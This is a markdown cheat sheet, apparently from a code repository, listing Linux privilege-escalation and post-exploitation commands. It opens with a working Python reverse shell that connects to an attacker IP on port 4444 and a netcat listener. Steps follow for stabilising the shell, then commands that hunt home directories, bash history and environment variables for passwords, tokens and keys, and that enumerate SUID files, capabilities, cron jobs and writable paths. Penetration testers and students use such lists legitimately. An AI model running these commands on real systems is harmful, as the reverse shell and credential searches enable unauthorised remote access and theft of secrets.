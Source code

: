 # BASIC PRIVILEGE ESCALATION ENUMERATION & EXPLOITATION
This document contains a list of useful commands for privilege escalation in Unix-like operating systems. These commands can help identify potential vectors for escalating privileges on a system. Most of them should be exploitable with the help of [GTFOBins](https://gtfobins.github.io/).

## Python Reverse Shell & Netcat Listener
It connects a compromised machine to an attacker's IP for remote command execution, while a Netcat listener waits on a specified port to receive incoming connections from such reverse shells.
#### Python TTY Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.x.y",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```
#### Netcat listener
```
nc -nvlp 4444
```

## Upgrading to a TTY Shell
A TTY (teletypewriter) shell is a command-line interface that allows users to interact with the operating system through a terminal, enabling input and output of text commands and responses in a real-time, interactive session. It simulates the behavior of traditional teletypes, providing a way to execute commands and scripts in a Unix-like environment. There are a total 3 steps to spawning a successful TTY Shell:
- STEP-1: Run the below command to spawn a better-featured pretty-looking bash shell without tab autocomplete or the arrow keys.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- STEP-2: Run the below command to set or modify the PATH environment variable in a Unix-like OS.
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
```
- STEP-3: Run the below command to access term commands such as `clear`.
```
export TERM=xterm-256color
```
- STEP-4: Background the Session using the SHORTCUT: `CTRL + Z`.
- STEP-5: Run the below command to turn off the terminal echo (allowing tab autocompletes, arrow keys, and Ctrl + C process killing).
```
stty raw -echo; fg; reset
```
- STEP-6: (Optional) Run the below command to Set the terminal size to 200*200 for better readability.
```
stty columns 200 rows 200
```
---
## BASIC POST-EXPLOITATION ENUMERATION COMMANDS

### Finding Secret Files
- Searching for files containing sensitive information such as API keys, tokens, or passwords. It lists files based on specific keywords often associated with sensitive data.
```
find /home/ -type f -exec ls -lsha {} + | grep -E -i '.secret|secret|token|key|api|password|username|db_password|mysql_password|mysql_user|databasepassword|mysql_root_password|mysql_password|credentials|creds|pass'
```

### Finding SUID Files
- Finding the files with SUID (Set User ID) execution permissions of the file Owner which could be used to escalate privileges.
```
find / -perm -4000 -type f 2>/dev/null
```

### Finding SGID Files
- Finding the files with SGID (Set Group ID) execution permissions of the file Owner's group which could be used to escalate privileges.
```
find / -perm -2000 -type f 2>/dev/null
```

### Finding Capabilities of Files
- Recursively listing the capabilities of all files on the root file system, suppressing error messages.
```
getcap -r / 2>/dev/null
```

### Checking Permissions on /etc/passwd & /etc/shadow
- This command checks the permissions of the /etc/passwd file, which may be writable and could allow unauthorized modifications.
```
ls -la /etc/passwd && ls -la /etc/shadow
```

### Listing Scheduled Cron Jobs
- Viewing cron jobs can reveal scheduled tasks that may be leveraged for privilege escalation.
```
cat /etc/crontab && ls -al /etc/cron.* && crontab -l && ls -al /var/spool/cron/crontabs
```

### Searching for Passwords in Home Directory
- Searches for occurrences of the term "password" recursively within the /home directory, which may help locate files containing sensitive information.
```
cd /home && grep -rnH "password"
```

### Checking Sudo Permissions
- Finding out what SUDO privileges the current has (If any):
```
sudo -l
```

### Environment Variables
- This command lists all environment variables, which can sometimes include sensitive information like passwords.
```
env
```

### Accessing User's Bash History
- The following command displays the contents of the `.bash_history` file, which may contain sensitive information such as passwords that were previously entered in the terminal.
```
cat .bash_history
```

### Checking User and Host Information
- Checking user and group details can provide insight into potential privilege escalation opportunities.
```
whoami && id && hostname
```

### Finding Writable Files and Directories
- Identifying files and directories writable by the user can help in various privilege escalation scenarios.

Writable Files
```
find / -writable -type f 2>/dev/null
```
Writable Directories
```
find / -writable -type d 2>/dev/null
```

### Finding Executables in PATH
- Finding executables in the PATH environment variable can help identify potentially exploitable scripts or binaries.
```
echo $PATH | tr ':' '\n' | xargs -I {} find {} -type f -executable 2>/dev/null
```

Feel free to modify or expand upon this template based on your needs. If you have any specific commands or sections you’d like to add, let me know!
